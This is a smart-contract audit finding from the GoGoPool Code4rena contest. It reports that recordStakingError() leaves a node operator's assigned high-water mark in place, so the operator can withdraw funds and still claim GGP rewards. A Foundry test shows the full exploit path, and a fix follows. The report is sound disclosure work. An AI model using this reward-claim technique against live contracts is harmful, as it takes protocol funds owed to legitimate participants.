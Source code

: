 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- downgraded by judge
- primary issue
- selected for report
- fix security (sponsor)
- M-17

# [NodeOp can get rewards even if there was an error in registering the node as a validator](https://github.com/code-423n4/2022-12-gogopool-findings/issues/471) 

# Lines of code

https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L484
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/ClaimNodeOp.sol#L56
https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/ClaimNodeOp.sol#L89


# Vulnerability details

## Impact

The [documentation](https://multisiglabs.notion.site/Architecture-Protocol-Overview-4b79e351133f4d959a65a15478ec0121) says that the NodeOps could be elegible for GGP rewards if they have a valid minipool. The problem is that if the MiniPool [has an error](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/contracts/contract/MinipoolManager.sol#L484) while registering the node as a validator, the NodeOp can get rewards even if the minipool had an error.

When the Rialto calls ```recordStakingError()``` function the ```AssignedHighWater``` is not reseted. So the malicious NodeOp (staker) can create pools which will have an error in the registration and get rewards from the protocol.

## Proof of Concept

I created a test in ```ClaimNodeOp.t.sol```:

1. NodeOp1 creates minipool
2. Rialto calls claimAndInitiateStaking, recordStakingStart and recordStakingError()
3. NodeOp1 withdraw his funds from minipool
4. NodeOp1 can get rewards even if there was an error with the node registration as validator.

```solidity
function testRecordStakingErrorCanGetRewards() public {
    // NodeOp can get rewards even if there was an error in registering the node as a validator
    // 1. NodeOp1 creates minipool
    // 2. Rialot/multisig claimAndInitiateStaking, recordStakingStart and recordStakingError
    // 3. NodeOp1 withdraw his funds from minipool
    // 4. NodeOp1 can get rewards even if there was an error with the node registration as validator.
    address nodeOp1 = getActorWithTokens("nodeOp1", MAX_AMT, MAX_AMT);
    uint256 duration = 2 weeks;
    uint256 depositAmt = 1000 ether;
    uint256 avaxAssignmentRequest = 1000 ether;
    skip(dao.getRewardsCycleSeconds());
    rewardsPool.startRewardsCycle();
    //
    // 1. NodeOp1 creates minipool
    //
    vm.startPrank(nodeOp1);
    ggp.approve(address(staking), MAX_AMT);
    staking.stakeGGP(200 ether);
    MinipoolManager.Minipool memory mp1 = createMinipool(depositAmt, avaxAssignmentRequest, duration);
    vm.stopPrank();
    address liqStaker1 = getActorWithTokens("liqStaker1", MAX_AMT, MAX_AMT);
    vm.prank(liqStaker1);
    ggAVAX.depositAVAX{value: MAX_AMT}();
    //
    // 2. Rialto/multisig claimAndInitiateStaking, recordStakingStart and recordStakingError
    //
    vm.prank(address(rialto));
    minipoolMgr.claimAndInitiateStaking(mp1.nodeID);
    bytes32 txID = keccak256("txid");
    vm.prank(address(rialto));
    minipoolMgr.recordStakingStart(mp1.nodeID, txID, block.timestamp);
    bytes32 errorCode = "INVALID_NODEID";
    int256 minipoolIndex = minipoolMgr.getIndexOf(mp1.nodeID);
    skip(2 weeks);
    vm.prank(address(rialto));
    minipoolMgr.recordStakingError{value: depositAmt + avaxAssignmentRequest}(mp1.nodeID, errorCode);
    assertEq(vault.balanceOf("MinipoolManager"), depositAmt);
    MinipoolManager.Minipool memory mp1Updated = minipoolMgr.getMinipool(minipoolIndex);
    assertEq(mp1Updated.avaxTotalRewardAmt, 0);
    assertEq(mp1Updated.errorCode, errorCode);
    assertEq(mp1Updated.avaxNodeOpRewardAmt, 0);
    assertEq(mp1Updated.avaxLiquidStakerRewardAmt, 0);
    assertEq(minipoolMgr.getTotalAVAXLiquidStakerAmt(), 0);
    assertEq(staking.getAVAXAssigned(mp1Updated.owner), 0);
    // The highwater doesnt get reset in this case
    assertEq(staking.getAVAXAssignedHighWater(mp1Updated.owner), depositAmt);
    //
    // 3. NodeOp1 withdraw his funds from the minipool
    //
    vm.startPrank(nodeOp1);
    uint256 priorBalance_nodeOp = nodeOp1.balance;
    minipoolMgr.withdrawMinipoolFunds(mp1.nodeID);
    assertEq((nodeOp1.balance - priorBalance_nodeOp), depositAmt);
    vm.stopPrank();
    //
    // 4. NodeOp1 can get rewards even if there was an error with the node registration as validator.
    //
    skip(2629756);
    vm.startPrank(address(rialto));
    assertTrue(nopClaim.isEligible(nodeOp1)); //<- The NodeOp1 is eligible for rewards
    nopClaim.calculateAndDistributeRewards(nodeOp1, 200 ether);
    vm.stopPrank();
    assertGt(staking.getGGPRewards(nodeOp1), 0);
    vm.startPrank(address(nodeOp1));
    nopClaim.claimAndRestake(staking.getGGPRewards(nodeOp1)); //<- Claim nodeOp1 rewards
    vm.stopPrank();
}
```

## Tools used

Foundry/VsCode

## Recommended Mitigation Steps

The ```MinipoolManager.sol::recordStakingError()``` function should reset the Assigned high water ```staking.resetAVAXAssignedHighWater(stakerAddr);``` so the user can not claim rewards for a minipool with errors.